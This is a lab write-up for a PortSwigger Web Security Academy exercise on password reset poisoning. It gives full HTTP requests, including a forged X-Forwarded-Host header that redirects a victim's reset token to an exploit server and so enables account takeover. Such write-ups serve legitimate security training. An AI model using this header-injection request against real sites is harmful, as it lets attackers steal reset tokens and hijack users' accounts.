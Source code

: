 # [Lab 13: Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)

## Description

This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

---

## Solution

Login with the credentials `wiener:peter` and intercept the login request in case it's useful later.

```http
POST /login HTTP/1.1
Host: aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Cookie: session=2NuLDGBnqy2BwlWPTe1RSqel5O5hpynT
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Dnt: 1
Referer: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter
```

After successfully logging in, an account screen is rendered that displays the current user's email address along with the option to update the user account's email address.

Log back out and return to the login page. This time, choose the `Forgot Password?` option. A prompt to enter the username or email address is rendered. Enter the username `wiener` and intercept the request.

```http
POST /forgot-password HTTP/1.1
Host: aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Cookie: session=aod71FWtnKgcfwfw1ujobk49D6nQNylf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Dnt: 1
Referer: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener
```

Navigate to `wiener`'s email client. An email has been generated with the following password reset link: `https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password?temp-forgot-password-token=3RjFx6ZFZYxNThvrOYl4hd0iZ7SwEV5A`. The token appears to be fairly random and not merely an encoded blob of user account data (i.e., `base64(username)`). Follow the link to be taken to a new form to change the password.

Submit the form with `peter` as the new password and intercept the request.

```http
POST /forgot-password?temp-forgot-password-token=3RjFx6ZFZYxNThvrOYl4hd0iZ7SwEV5A HTTP/1.1
Host: aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Cookie: session=aod71FWtnKgcfwfw1ujobk49D6nQNylf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Dnt: 1
Referer: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password?temp-forgot-password-token=3RjFx6ZFZYxNThvrOYl4hd0iZ7SwEV5A
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

temp-forgot-password-token=3RjFx6ZFZYxNThvrOYl4hd0iZ7SwEV5A&new-password-1=peter&new-password-2=peter
```

A successful password change yields a 302 redirect to `/`.

So far, this challenge is the same as [12 - Password reset broken logic](12%20-%20Password%20reset%20broken%20logic.md). However, the backend of this challenge doesn't simply check whether the token parameter exists and then change `username`'s password. The vulnerability is in the way the password reset link is generated during in the `POST /forgot-password` endpoint.

This endpoint is sensitive to the fact that it may be behind a reverse proxy. If it is, then its hostname probably isn't routable to the client and thus would be useless in the password reset link. Instead, it should use the same hostname the client was attempting to access when it made its request to the reverse proxy. This is indicated by the `X-Forwarded-Host` header.

By submitting a `POST` request to `/forgot-password` with the username `carlos` and the `X-Forwarded-Host` header set to the hostname of the challenge's exploit server, the endpont will send an email with the following link: `https://$X_FORWARDED_HOST/forgot-password?temp-forgot-forgot-password-token=$TOKEN`. When `carlos` clicks on this link, he will unknowingly send a request with his password reset token to the exploit server.

```http
POST /forgot-password HTTP/1.1
Host: aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Cookie: session=aod71FWtnKgcfwfw1ujobk49D6nQNylf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Dnt: 1
Referer: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
X-Forwarded-Host: exploit-ac421ff71e034b6880656dd8013c00d3.web-security-academy.net

username=carlos
```

Retrieve the password change token from the exploit server's access logs.

![](images/Pasted%20image%2020210814171941.png)

Browse to `https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password?temp-forgot-password-token=NiX6Rq9cwjXBF8wWEj4T3A46q2Qf4nlL` and change `carlos`'s password. Login as `carlos` to complete the challenge.
